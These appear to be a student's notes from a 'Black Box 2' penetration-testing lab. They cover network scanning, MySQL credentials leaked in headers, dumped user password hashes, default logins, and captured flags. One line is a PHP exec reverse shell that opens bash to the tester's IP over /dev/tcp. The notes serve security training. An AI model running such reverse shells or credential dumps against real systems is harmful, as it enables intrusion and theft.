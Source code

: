 # Black Box 2 Notes

My IP: `172.16.64.10`
Target subnet: 172.16.64.0/24

Let's ping scan target subnet for up IPs.
`nmap -n -sn 172.16.64.0/24 -oG - | awk '/Up$/{print $2}'`

Results:
```
172.16.64.81
172.16.64.91
172.16.64.92
172.16.64.166
```
### 172.16.64.81
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
MySQL on port 13306
- `MySQL 5.7.25-0ubuntu0.16.04.2`
- X-DB-Key: `x41x41x412019!`
- X-DB-User: `root`
- X-DB-name: `mysql`

**Flag found via SQL login**:
```
MySQL [cmsbase]> select id,content from flag;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
```

Other creds found via SQL:
```
MySQL [cmsbase]> select user,password,name,email from tbl_users;
+---------+--------------------------------------------------------------+---------+-------------------+
| user    | password                                                     | name    | email             |
+---------+--------------------------------------------------------------+---------+-------------------+
| foocorp | $2a$08$f2fG8Ncpmj815xQ9U3Ylh.uD0VW/X6kOgjPIEHKP547jspS0FlHF6 | foocorp | admin@foocorp.io  |
| mickey  | $2a$08$w/oljwDbODAThUR4HTVO8eUjTabE80sH0i6xnOR97ZXfsGGmxohAW | mickey  | mickey@foocorp.io |
| donald  | $2a$08$dK04y0KEURxDv02vYRab1OMYMSWbW/bpGF.eAWrWv9JAGaa4yTxlq | donald  | donald@foocorp.io |
+---------+--------------------------------------------------------------+---------+-------------------+
```

/webapp/ subdomain found!
#### /webapp/robots.txt:
```
User-agent: *
Disallow: /assets/
Disallow: /css/
Disallow: /emails/
Disallow: /img/
Disallow: /includes/
Disallow: /install/
Disallow: /lang/
Disallow: /sociallogin/
Disallow: /templates/
Disallow: /upload/
```
---

### 172.16.64.91
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
DNS: 75ajvxi36vchsv584es1.foocorp.io.
No subdomains found.
Able to upload PHP reverse shell.
***
### 172.16.64.92
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  dnsmasq 2.75
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
63306/tcp open  unknown  
```
Seems like this is the best bet for initial exploitation.
No subdomains found.
63306 is MySQL?
Ran PHP reverse shell in admin console:
`exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.64.10/1234 0>&1'");`
**Flag found!**
***
### 172.16.64.166
```
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
Exploited using `sabrina:CHANGEME` creds.
**Flag found!**
